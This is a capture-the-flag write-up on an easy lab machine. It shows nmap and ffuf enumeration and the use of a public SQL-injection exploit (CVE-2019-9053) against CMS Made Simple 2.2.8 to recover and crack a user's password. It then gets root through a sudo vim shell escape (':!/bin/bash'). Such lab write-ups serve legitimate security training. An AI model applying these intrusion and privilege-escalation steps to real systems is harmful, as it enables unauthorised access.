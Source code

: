 # easyCTF

## Enumeraion

### nmap

```
PORT     STATE SERVICE REASON  VERSION
21/tcp   open  ftp     syn-ack vsftpd 3.0.3
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
|_Can't get directory listing: TIMEOUT
| ftp-syst:
|   STAT:
| FTP server status:
|      Connected to ::ffff:10.8.226.203
|      Logged in as ftp
|      TYPE: ASCII
|      No session bandwidth limit
|      Session timeout in seconds is 300
|      Control connection is plain text
|      Data connections will be plain text
|      At session startup, client count was 2
|      vsFTPd 3.0.3 - secure, fast, stable
|_End of status
80/tcp   open  http    syn-ack Apache httpd 2.4.18 ((Ubuntu))
| http-robots.txt: 2 disallowed entries
|_/ /openemr-5_0_1_3
|_http-title: Apache2 Ubuntu Default Page: It works
| http-methods:
|_  Supported Methods: GET HEAD POST OPTIONS
|_http-server-header: Apache/2.4.18 (Ubuntu)
2222/tcp open  ssh     syn-ack OpenSSH 7.2p2 Ubuntu 4ubuntu2.8 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   2048 29:42:69:14:9e:ca:d9:17:98:8c:27:72:3a:cd:a9:23 (RSA)
| ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABAQCj5RwZ5K4QU12jUD81IxGPdEmWFigjRwFNM2pVBCiIPWiMb+R82pdw5dQPFY0JjjicSysFN3pl8ea2L8acocd/7zWke6ce50tpHaDs8OdBYLfpkh+OzAsDwVWSslgKQ7rbi/ck1FF1LIgY7UQdo5FWiTMap7vFnsT/WHL3HcG5Q+el4glnO4xfMMvbRar5WZd4N0ZmcwORyXrEKvulWTOBLcoMGui95Xy7XKCkvpS9RCpJgsuNZ/oau9cdRs0gDoDLTW4S7OI9Nl5obm433k+7YwFeoLnuZnCzegEhgq/bpMo+fXTb/4ILI5bJHJQItH2Ae26iMhJjlFsMqQw0FzLf
|   256 9b:d1:65:07:51:08:00:61:98:de:95:ed:3a:e3:81:1c (ECDSA)
| ecdsa-sha2-nistp256 AAAAE2VjZHNhLXNoYTItbmlzdHAyNTYAAAAIbmlzdHAyNTYAAABBBM6Q8K/lDR5QuGRzgfrQSDPYBEBcJ+/2YolisuiGuNIF+1FPOweJy9esTtstZkG3LPhwRDggCp4BP+Gmc92I3eY=
|   256 12:65:1b:61:cf:4d:e5:75:fe:f4:e8:d4:6e:10:2a:f6 (ED25519)
|_ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIJ2I73yryK/Q6UFyvBBMUJEfznlIdBXfnrEqQ3lWdymK
Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel
```

### ffuf

```
.htaccess               [Status: 403, Size: 294, Words: 22, Lines: 12]
[Status: 200, Size: 11321, Words: 3503, Lines: 376]
.hta                    [Status: 403, Size: 289, Words: 22, Lines: 12]
.htpasswd               [Status: 403, Size: 294, Words: 22, Lines: 12]
index.html              [Status: 200, Size: 11321, Words: 3503, Lines: 376]
robots.txt              [Status: 200, Size: 929, Words: 176, Lines: 33]
server-status           [Status: 403, Size: 298, Words: 22, Lines: 12]
simple                  [Status: 301, Size: 309, Words: 20, Lines: 10]
```

They say its easy

`robots.txt` is written by 'mike'

fuzzing show a simple page with 301 code...we visited and got a simple page made with cms made simple (CMSMS)

`This site is powered by CMS Made Simple version 2.2.8`

okay then...of of the pages say

```
To get to the Administration Console you have to login as the administrator (with the username/password you mentioned during the installation process) on your site at http://yourwebsite.com/cmsmspath/admin. If this is your site click here to login.
```

lets google

Actually...found alot of cve that matches this version...but time-based sqli `CVE-2019-9053` was or best match

There is an exploit from exploitdb provided...a python script we are gonna use

Took me a bit to fix the script and make it work with python3 (I could just use python2 though)

I had to :

- change shebang line on top to 'python3' instead of 'python'
- add parenthesis to the print statements
- fix an error with md5 (added encode UTF-8 before the hexdigest) in crack_password function
- made sure to point -u argument to the simple cms path...like http://ip_address/simple
- and the most frustrating the TIME variable! due to my stupid slow internet I had to increase the variable to 20 to have results and it obviously took me waaaay longer

Anyway I got results

```
[+] Salt for password found: 1dac0d92e9fa6bb2
[+] Username found: mitch
[+] Email found: admin@admin.com
[+] Password found: 0c01f4468bd75d7a84c7eb73846e8d96
[+] Password cracked: secret
```

we ssh as mitch (remember the port is unusual -p 2222)

And we get right into business!
`$ cat user.txt`

## Priilege Escalation

```
$ sudo -l
User mitch may run the following commands on Machine:
(root) NOPASSWD: /usr/bin/vim
```

OH NO NOT VIM...hey but wait..we can run commands in vim

then its easy peazy

`sudo vim`

Then in vim we do:

```
:!/bin/bash
```

Ànd its over

```
root@Machine:~# id
uid=0(root) gid=0(root) groups=0(root)
```

Fastest privEsc in the west

```
root@Machine:/root# cat root.txt
```

its indeed an easy ctf...but its always fun to do

glhf!
